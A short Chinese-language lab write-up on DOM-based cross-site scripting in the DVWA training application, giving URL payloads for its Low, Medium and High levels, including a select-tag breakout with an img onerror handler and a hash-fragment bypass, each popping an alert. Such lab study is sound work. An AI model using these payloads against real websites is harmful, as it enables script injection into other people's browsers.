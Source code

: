 # DVWA XSS DOM 

DOM 全稱為 Document Object Model，用以描述HTML文件的表示法，可以使用Javascript 動態產生完整的網頁，不必透過伺服器。因此 DOM-Based XSS 就是指網頁上的 JavaScript 在執行過程中，沒有詳細檢查資料使得操作 DOM 的過程代入了惡意指令。


## Low

完全沒保護下的URL : 

```
    http://www.dvwa.com/vulnerabilities/xss_d/?default=English
```
改成

```
    http://www.dvwa.com/vulnerabilities/xss_d/?default=111111
```

發現 option 中的選項被改成了 111111
直接調整改變dom 元素
```
    http://www.dvwa.com/vulnerabilities/xss_d/?default=<script>alert('xss')</script>
```

## Medium 


```
    http://172.17.0.1/dvwa/vulnerabilities/xss_d/?default=</select><img src/onerror=alert(1)>
```



https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


## HIGH
* 作為一個html網頁錨的定位功能，#號後面的資料是不會進到後台的。


使用錨定功能破解

```
    http://172.17.0.1/dvwa/vulnerabilities/xss_d/?default=English#<script>alert(1)</script>
```